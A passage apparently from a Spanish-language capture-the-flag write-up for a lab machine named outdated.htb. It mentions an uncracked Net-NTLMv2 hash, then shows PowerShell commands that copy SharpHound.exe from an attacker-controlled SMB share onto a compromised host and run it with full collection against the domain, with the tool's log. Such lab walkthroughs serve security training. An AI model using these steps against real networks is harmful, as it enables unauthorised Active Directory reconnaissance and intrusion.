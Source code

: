 Se puede observar un hash Net-NTLMv2, pero la contraseña es robusta y no se puede crackear

Desde el contenedor copio el binario

```null
PS C:\> mkdir Temp


    Directory: C:\


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         1/17/2023   3:32 PM                Temp


PS C:\> cd Temp
PS C:\Temp> copy \\10.10.14.2\shared\SharpHound.exe SharpHound.exe
PS C:\Temp> dir


    Directory: C:\Temp


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         6/28/2022   5:49 AM         908288 SharpHound.exe
```

Al ejecutar añado el argumento -c para que sea lo más agresivo posible

```null
PS C:\Temp> .\SharpHound.exe -c All
2023-01-17T15:35:10.2521779-08:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-01-17T15:35:10.7829203-08:00|INFORMATION|Initializing SharpHound at 3:35 PM on 1/17/2023
2023-01-17T15:35:21.2516478-08:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-01-17T15:35:23.5204173-08:00|INFORMATION|Beginning LDAP search for outdated.htb
2023-01-17T15:35:23.9443638-08:00|INFORMATION|Producer has finished, closing LDAP channel
2023-01-17T15:35:23.9704499-08:00|INFORMATION|LDAP channel closed, waiting for consumers
2023-01-17T15:35:53.7992990-08:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 38 MB RAM
2023-01-17T15:36:10.0345292-08:00|INFORMATION|Consumers finished, closing output channel
2023-01-17T15:36:10.6018232-08:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2023-01-17T15:36:12.3722217-08:00|INFORMATION|Status: 97 objects finished (+97 2.020833)/s -- Using 60 MB RAM
2023-01-17T15:36:12.3878674-08:00|INFORMATION|Enumeration finished in 00:00:48.8672276
2023-01-17T15:36:12.8618512-08:00|INFORMATION|SharpHound Enumeration Completed at 3:36 PM on 1/17/2023! Happy Graphing!
PS C:\Temp> 
```
